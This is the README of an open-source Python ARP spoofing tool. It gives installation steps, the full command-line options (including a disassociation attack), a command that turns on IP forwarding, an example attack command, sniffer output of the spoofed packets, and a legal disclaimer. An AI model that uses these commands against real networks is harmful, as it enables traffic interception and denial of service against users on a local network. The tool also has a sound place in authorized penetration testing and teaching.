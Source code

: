# Python 3 ARP Spoofing Tool

[![Python Version](https://img.shields.io/badge/python-3.x-blue?style=for-the-badge&logo=python)](https://github.com/EONRaider/Packet-Sniffer/)
[![Open Source? Yes!](https://img.shields.io/badge/Open%20Source%3F-Yes!-green?style=for-the-badge&logo=appveyor)](https://github.com/EONRaider/Packet-Sniffer/)
[![License](https://img.shields.io/github/license/EONRaider/Packet-Sniffer?style=for-the-badge)](https://github.com/EONRaider/Packet-Sniffer/blob/master/LICENSE)

[![Reddit](https://img.shields.io/reddit/user-karma/combined/eonraider?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Keybase](https://img.shields.io/badge/keybase-eonraider-blue?style=flat-square&logo=keybase)](https://keybase.io/eonraider)
[![Twitter](https://img.shields.io/twitter/follow/eon_raider?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages a low-level 
assembly of Ethernet II frames and ARP packets.

This application maintains no dependencies on third-party modules and can be 
run by any Python 3.x interpreter.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.
```
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] (--attackermac MAC | --disassociate) --gatemac MAC --targetmac MAC 
            --gateip IP --targetip IP interface

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  interface          Interface on the attacker machine to send packets from.

optional arguments:
  -h, --help         show this help message and exit
  --attackermac MAC  MAC address of the Network Interface Controller (NIC) used by 
                     the attacker.
  --disassociate     Execute a disassociation attack in which a randomized MAC 
                     address is set for the attacker machine, effectively making 
                     the target host send packets to a non-existent gateway.
  --gatemac MAC      MAC address of the NIC associated to the gateway.
  --targetmac MAC    MAC address of the NIC associated to the target.
  --gateip IP        IP address currently assigned to the gateway.
  --targetip IP      IP address currently assigned to the target.
  --interval TIME    Time in between each transmission of spoofed ARP packets 
                     (defaults to 0.5 seconds).
```


## Running the Application

- Execute the following command with administrative privileges in order to enable 
forwarding of IPv4 packets through the attacker machine. This is a temporary solution 
meant to be reset upon the next reboot (for a permanent solution check [this guide](https://linuxhint.com/enable_ip_forwarding_ipv4_debian_linux/)):

  `user@host:~$ sudo sysctl -w net.ipv4.ip_forward=1`

- Example command with which we initiate an attack against a given target machine 
and gateway (the `eth0` interface is the one the attacker uses to send spoofed 
packets):
  ```
  user@host:~$ sudo python3 arpspoof.py eth0 \
  --gateip 10.0.1.1 --gatemac 52:54:00:45:6a:69 \
  --targetip 10.0.1.6 --targetmac 08:00:27:83:dc:02
  
  [+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
  ```
- Traffic displayed by [Network Packet Sniffer](https://github.com/EONRaider/Packet-Sniffer)
as the attack initiated above takes place:
  ```
  [>] Packet #1 at 15:15:03:
      [+] MAC ......08:00:27:1f:6a:67 -> 52:54:00:45:6a:69
      [+] ARP ...............10.0.1.6 -> Is at 08:00:27:1f:6a:67
  [>] Packet #2 at 15:15:03:
      [+] MAC ......08:00:27:1f:6a:67 -> 08:00:27:83:dc:02
      [+] ARP ...............10.0.1.1 -> Is at 08:00:27:1f:6a:67
  ```

## Legal Disclaimer
The use of code contained in this repository, either in part or in its totality, 
for engaging targets without prior mutual consent is illegal. **It is 
the end-user's responsibility to obey all applicable local, state 
and federal laws.**

Developers assume **no liability** and are not 
responsible for misuses or damages caused by any code contained 
in this repository in any event that, accidentally or otherwise, it comes to 
be utilized by a threat agent or unauthorized entity as a means to compromise the security, privacy, 
confidentiality, integrity and/or availability of systems and their associated 
 resources by leveraging the exploitation of known or unknown vulnerabilities present 
in said systems, including, but not limited to, the implementation of security controls, 
human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those circumstances 
directly related to **educational environments** or **authorized penetration testing 
engagements** whose declared purpose is that of finding and mitigating vulnerabilities 
in systems, limiting their exposure to compromises and exploits employed by malicious 
agents as defined in their respective threat models.
